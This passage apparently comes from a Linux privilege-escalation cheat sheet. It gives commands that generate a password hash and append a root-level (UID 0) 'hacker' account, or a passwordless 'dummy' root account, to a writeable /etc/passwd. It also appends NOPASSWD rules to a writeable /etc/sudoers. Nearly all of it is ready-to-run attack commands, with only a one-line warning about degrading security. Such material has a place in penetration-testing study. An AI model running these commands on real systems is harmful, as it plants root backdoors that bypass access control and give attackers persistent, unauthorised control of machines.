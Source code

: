 ````
openssl passwd -1 -salt hacker hacker
mkpasswd -m SHA-512 hacker
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
````

Then add the user `hacker` and add the generated password.

```
hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash
```

E.g: `hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash`

You can now use the `su` command with `hacker:hacker`

Alternatively you can use the following lines to add a dummy user without a password.  
WARNING: you might degrade the current security of the machine.

```
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```

- Writeable /etc/sudoers file

```
echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers

# use SUDO without password
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers
```


